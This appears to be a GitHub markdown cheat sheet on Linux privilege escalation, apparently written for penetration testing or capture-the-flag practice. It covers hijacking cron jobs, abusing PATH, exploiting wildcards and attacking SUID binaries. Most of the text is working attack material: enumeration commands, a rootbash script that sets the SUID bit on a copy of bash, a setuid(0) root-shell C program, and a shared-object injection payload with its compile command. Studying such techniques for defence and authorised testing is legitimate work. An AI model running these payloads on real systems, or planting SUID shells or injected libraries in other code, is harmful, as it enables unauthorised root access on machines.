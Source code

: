 ## Cronjobs    
look for scripts you can write to running as a cronjob, writeable cron directory/crontab, writeable PATH directories used, wildcard expansion 

    cat /etc/crontab  
    crontab -l    
    ls -al /etc/cron* 
## PATH variable 
If a cronjob doesn’t use an absolute path and one of path dirs is writable by user: can create a script with the same name as the cron job so it is executed. 
default /usr/bin:/bin 

    echo $PATH 
    cat /etc/crontab     
### Rootbash script 
    #!/bin/bash 
    cp /bin/bash /tmp/rootbash 
    chmod +s /tmp/rootbash 
### Wildcards 
[Exploiting wildcards in Linux](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/) 

## SUID Binaries 
Overwrite binary, use [gtfobins](https://gtfobins.github.io/) exploits, insert missing shared object, manipulate enviromental variables 

    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;  2>/dev/null     
    find / -type f -a -perm -o+x -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null  
    
### Custom Executable
    int main(){
        setuid(0);
        system("/bin/bash -p");
    }  
### Shared Object Injection 
look for missing shared objects searched for in writable directories 

    strace [suid binary] 2>&1 | grep -iE “open|access|no such file” 
    [missing shared object].c  
    
    #include <stdio.h> 
    #include <stdlib.h> 
    static void inject() __attribute__((constructor));  
    void inject(){ 
     setuid(0); 
     system("/bin/bash -p"); 
    } 
    
    gcc -shared -fPIC -o [missing shared object].so [missing shared object].c 
    run suid binary 
### PATH Enviromental Variables 
SUID /SGID binary tries to execute another file without absolute path? -> change PATH var 
